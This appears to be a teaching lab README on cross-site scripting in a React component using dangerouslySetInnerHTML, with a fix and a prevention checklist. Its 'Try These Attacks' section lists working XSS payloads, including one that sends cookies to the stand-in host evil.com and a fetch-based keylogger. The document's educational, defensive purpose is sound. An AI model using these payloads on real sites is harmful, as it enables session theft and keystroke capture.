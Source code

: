 # Security Lab: XSS Vulnerability

## Learning Objectives
1. Understand how XSS vulnerabilities work
2. Learn to identify vulnerable code patterns
3. Practice implementing secure alternatives
4. Test security measures

## The Vulnerability
The vulnerable component uses `dangerouslySetInnerHTML` without sanitization.
This allows attackers to inject malicious scripts.

## Try These Attacks
1. Basic alert: `<img src=x onerror=alert('XSS')>`
2. Cookie theft: `<script>document.location='http://evil.com?c='+document.cookie</script>`
3. Keylogger: `<script>document.onkeypress=function(e){fetch('/log?key='+e.key)}</script>`

## The Fix
The secure version sanitizes input by encoding HTML entities.
This prevents the browser from interpreting user input as HTML/JavaScript.

## Real-World Impact
- GitHub had an XSS vulnerability in 2020 via issue titles
- PayPal had XSS in their checkout flow in 2019
- These vulnerabilities can lead to account takeover, data theft, and more

## Prevention Checklist
- [ ] Never use dangerouslySetInnerHTML with user input
- [ ] Always sanitize/encode user input
- [ ] Use Content Security Policy headers
- [ ] Implement proper input validation
- [ ] Regular security audits
